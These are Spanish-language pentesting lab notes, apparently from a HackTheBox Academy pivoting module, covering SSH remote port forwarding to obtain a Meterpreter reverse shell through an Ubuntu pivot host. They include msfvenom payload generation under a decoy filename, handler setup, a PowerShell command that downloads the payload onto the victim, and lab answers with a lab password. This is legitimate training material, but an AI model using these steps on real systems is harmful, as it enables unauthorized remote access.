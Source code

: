 Existen ocasiones en que podríamos reenviar un servicio local a un puerto remoto.

Vamos a considerar el escenario en que querramos acceder por RDP a la máquina "Windows A".
Podemos hacerlo, como ya sabemos, a través del servidor UBUNTU, el cual se encuentra entre medio de la atacante y la víctima con ambas interfaces de red.
![[33.webp]]

**¿Pero que pasa si quisiésemos obtener una reverse shell?

La máquina Windows cuenta exclusivamente con una interfaz de red 172.16.5.0/23, mientras que la atacante se encuentra en la 10.xx.xx.xx.
Si con metasploit ejecutásemos un módulo para obtener una "reverse shell", no podríamos establecerla debido a que el servidor WINDOWS_A no sabe como enrutar el tráfico desde 172.16.5.0/23 para llegar a la red del atacante (10.129.xx.xx./xx).

Hay ocasiones en que una conexión RDP no es suficiente para el pentesting que estoy haciendo, y necesitaré establecer una sesión de Meterpreter.
En estos casos, tendríamos que encontrar un "PIVOT HOST".

Para conseguir una sesión shell-meterpreter en Windows_A, crearé un payload en meterpreter pero la conexión inversa del PAYLOAD (L_HOST) sería el servidor UBUNTU (172.16.5.129).
Usaremos el puerto 8080 del servidor UBUNTU para reenviar todos los paquetes al puerto 8000 de nuestra máquina atacante, la cual tendrá un listener de metasploit. 

## Creando un payload con msfvenom
```shell-session
Polika4RM@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

- lhost= \<InternalIPofPivotHost> = máquina ubuntu intermedia.
  Aquí LHOST=172.16.5.129 = donde la víctima intentará conectar.

#### Configurando e iniciando multi/handler

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
Hay dos usos distintos de LHOST en este escenario:
- LHOST cuando generas el payload (msfvenom):
  Es la IP a la que la víctima intentará conectarse cuando ejecute el payload. Debe ser una IP alcanzable desde la máquina víctima (la máquina UBUNTU).
- LHOST cuando configuras el handler en msfconsole:
  Es la IP en la que Metasploit se bindea (escucha) en la máquina donde corre el handler. No le dice al payload a dónde conectar; le dice a tu handler en qué interfaces debe aceptar conexiones entrantes:
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)       <------ LHOST es la IP que escuchará
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```
El poner LHOST 0.0.0 le dice a metasploit que bindee el handler en todas las interfaces IPv4 locales (es decir, que escuche en cualquier IP del equipo donde corra el Handler).

## Transfiriendo el Payload al Pivot Host
- El siguiente comando copia el archivo backupscript.exe al Host Ubuntu haciendo uso del protocolo "scp" (Secure Copy -> SSH).
- La dirección donde se pegará el archivo se especifica trás ">". 

```shell-session
Polika4RM@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00
```

Con esto, desde el PIVOT HOST ubuntu podemos abrir un servidor python3 con:
```
ubuntu@Webserver$ python3 -m http.server 8123
```

Como tenemos sesión por RDP con el cliente, nos lo descargaremos desde la máquina víctima con:
```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"¡
```


Una vez tengamos descargado el Payload en nuestra máquina víctima WINDOWS_A, podremos ejecutar el "SSH REMOTE PORT FORWARDING" para reenviar las conexiones desde el puerto 8080 del servidor Ubuntu, al servicio de escucha msfconsole seteado en el puerto 8000.



## Usando SSH-R
Usaremos el argumento -vN en nuestro comando SSH para que sea más detallado y no solicite el shell de inicio de sesión. El comando -R solicita al servidor Ubuntu que escuche en <direcciónIPobjetivo>:8080 y reenvíe todas las conexiones entrantes en el puerto 8080 al servicio de escucha de msfconsole en 0.0.0.0:8000 de nuestro host de ataque:


```shell-session
Polika4RM@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

Una vez establecido esta conexión ssh y teniendo en escucha el listener de msfconsole, podremos ejecutar desde la máquina víctima el ejecutable "backupscript.exe". 

Nuestra sesión de Meterpreter debería indicar que nuestra conexión entrante proviene de un host local (127.0.0.1), ya que recibimos la conexión a través del socket SSH local, lo que creó una conexión saliente al servidor Ubuntu. Ejecutar el comando netstat puede mostrarnos que la conexión entrante proviene del servicio SSH.

La siguiente representación gráfica ofrece una forma alternativa de comprender esta técnica.![[44.webp]]
---
**Target: 10.129.184.227**
**SSH to  with user "ubuntu" and password "HTB_@cademy_stdnt!"**
 **1. Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)**

Me conecto por SSH a la máquina PIVOT HOST intermedia (UBUNTU):
```
ssh ubuntu@10.129.184.227
```

y desde la sesión ssh realizo un IP A:
```
ubuntu@WEB01:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:ed:2a brd ff:ff:ff:ff:ff:ff
    inet 10.129.184.227/16 brd 10.129.255.255 scope global dynamic ens192
       valid_lft 3566sec preferred_lft 3566sec
    inet6 dead:beef::250:56ff:fe94:ed2a/64 scope global dynamic mngtmpaddr 
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:fe94:ed2a/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:83:89 brd ff:ff:ff:ff:ff:ff
    inet 172.16.5.129/23 brd 172.16.5.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:8389/64 scope link 
       valid_lft forever preferred_lft forever
```

Veo como a parte de la interfaz "lo", tengo la ens192 (que es la que tiene comunicación con la máquina atacante), y tengo la "ens224", con una IP de máquina 172.16.5.129/23.

**2. What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)**
Respuesta teórica: 0.0.0.0

